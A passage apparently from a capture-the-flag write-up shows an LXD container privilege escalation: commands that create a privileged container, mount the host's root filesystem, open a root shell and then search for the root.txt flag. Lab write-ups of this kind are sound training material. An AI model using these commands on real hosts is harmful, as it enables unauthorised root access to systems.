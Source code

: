 # Check it imported
lxc image list

# Create and configure container
lxc init myimage ignite -c security.privileged=true

# Mount host filesystem
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

# Start container and get shell
lxc start ignite
lxc exec ignite /bin/sh

# You're now root! The host filesystem is at /mnt/root

<img width="662" height="260" alt="image" src="https://github.com/user-attachments/assets/85c85f53-78e4-4c5a-81ce-a12565857165" />

We can search for the "root.txt" flag


<img width="381" height="134" alt="image" src="https://github.com/user-attachments/assets/6e67ac37-5906-419b-b563-1f2319739d1a" />






 

  

